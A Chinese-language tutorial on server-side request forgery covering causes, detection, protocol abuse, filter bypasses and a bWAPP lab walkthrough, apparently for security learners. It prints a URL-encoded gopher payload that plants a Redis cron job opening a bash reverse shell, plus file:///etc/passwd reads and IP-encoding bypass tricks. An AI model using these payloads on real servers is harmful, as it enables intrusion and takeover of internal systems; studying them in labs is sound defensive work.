





SSRF漏洞部分
SSRF简述
SSRF(Server-Side Request Forgery:服务器端请求伪造) 是一种由攻击者构造形成由服务端发起请求的一个安全漏洞。一般情况下，SSRF攻击的目标是从外网无法访问的内部系统。（正是因为它是由服务端发起的，所以它能够请求到与它相连而与外网隔离的内部系统）
漏洞形成原因
SSRF形成的原因大都是由于服务端提供了从其他服务器应用获取数据的功能且没有对目标地址做过滤与限制。比如从指定URL地址获取网页文本内容，加载指定地址的图片，下载等等。
例如：
www.xxx.com/a.php?image=http://www.abc.com/1.jpg
如果我们将http://www.abc.com/1.jpg换为与该服务器相连的内网服务器地址会产生什么效果呢？
如果存在该内网地址就会返回1xx 2xx 之类的状态码，不存在就会其他的状态码
SSRF漏洞就是通过篡改获取资源的请求发送给服务器，但是服务器并没有发现这个请求是否合法，然后服务器以他的身份来访问其他服务器的资源。
curl造成的SSRF
1 |
|
file_get_contents造成的SSRF
1 |
|
SSRF常见出现位置
- 分享：通过URL地址分享网页内容
- 转码服务
- 在线翻译
- 图片加载与下载：通过URL地址加载或下载图片
- 图片、文章收藏功能
- 未公开API实现以及其他调用URL的功能
SSRF验证方法
1.因为SSRF漏洞是构造服务器发送请求的安全漏洞，所以我们就可以通过抓包分析发送的请求是否是由服务器的发送的来判断是否存在SSRF漏洞
2.在页面源码中查找访问的资源地址 ，如果该资源地址类型为 http://www.xxx.com/a.php?image=（地址）的就可能存在SSRF漏洞
利用SSRF漏洞
- 让服务器去访问相应的网址
- 让服务器去访问自己所处内网的一些指纹文件来判断是否存在相应的CMS
- 可以使用file、dict、gopher、ftp协议进行请求访问相应的文件
- 攻击运行在内网或本地的应用程序（比如溢出）;
- 可以对外网、服务器所在内网、本地进行端口扫描，获取一些服务的banner信息;
SSRF中各个编程语言可以使用的协议如下图所示：

file协议
查看文件：file:///etc/passwd
dict协议
探测端口：dict://127.0.0.1:80
gopher协议
Gopher协议可以做很多，特别是在SSRF漏洞中可以发挥很多重要的作用，利用此协议可以攻击内网的FTP、Telnet Redis Memcache 也可以进行GET POST请求 .
1
curl -v 'http://sec.com:8082/sec/ssrf.php?url=gopher%3A%2F%2F127.0.0.1%3A6379%2F_%2A3%250d%250a%243%250d%250aset%250d%250a%241%250d%250a1%250d%250a%2456%250d%250a%250d%250a%250a%250a%2A%2F1%20%2A%20%2A%20%2A%20%2A%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F127.0.0.1%2F2333%200%3E%261%250a%250a%250a%250d%250a%250d%250a%250d%250a%2A4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%243%250d%250adir%250d%250a%2416%250d%250a%2Fvar%2Fspool%2Fcron%2F%250d%250a%2A4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%2410%250d%250adbfilename%250d%250a%244%250d%250aroot%250d%250a%2A1%250d%250a%244%250d%250asave%250d%250a%2A1%250d%250a%244%250d%250aquit%250d%250a'
- 攻击内网web应用（可以向内部任意主机的任意端口发送精心构造的数据包）
- 攻击内网应用程序（利用跨协议通信技术）
- DOS攻击
- 判断内网主机是否存活：访问是否有端口开放
常见的绕过方法
@绕过：
http://xxx.com@10.10.10.10=10.10.10.10利用特殊的域名
利用句号
127。0。0。1=>127.0.0.1
利用协议
利用Enclosed
IP使用其他进制：127.0.0.1=2130706433
使用短地址：www.baidu.com ==https://dwz.lc/2fGYWaE

bWAPP靶场实战（SSRF)
一、使用（RFI）远程文件包含进行端口扫描（内网探测）
我们进入bWAPP SSRF部分。
我们点击黑体字Port scan得到了端口扫描的攻击脚本
我们退出SSRF模块 进入（RFI/LFI)模块，发现?language=lang_en.php此处可能存在文件包含漏洞。

我们在VM中开启了虚拟机，得知IP为192.168.153.131

二、使用XXE获取敏感文件中的内容
我们先点击黑体字获取XXE攻击脚本。

然后使用Burp抓包后发送到Repeater模块，

第一次我们使用http协议读取robots.txt文件内容

第二次我们使用php协议读取 xml页面中的内容

第三次我们使用file协议读取本机的/etc/passwd的内容
参考文章：
https://damit5.com/2018/05/26/SSRF-%E6%BC%8F%E6%B4%9E%E5%AD%A6%E4%B9%A0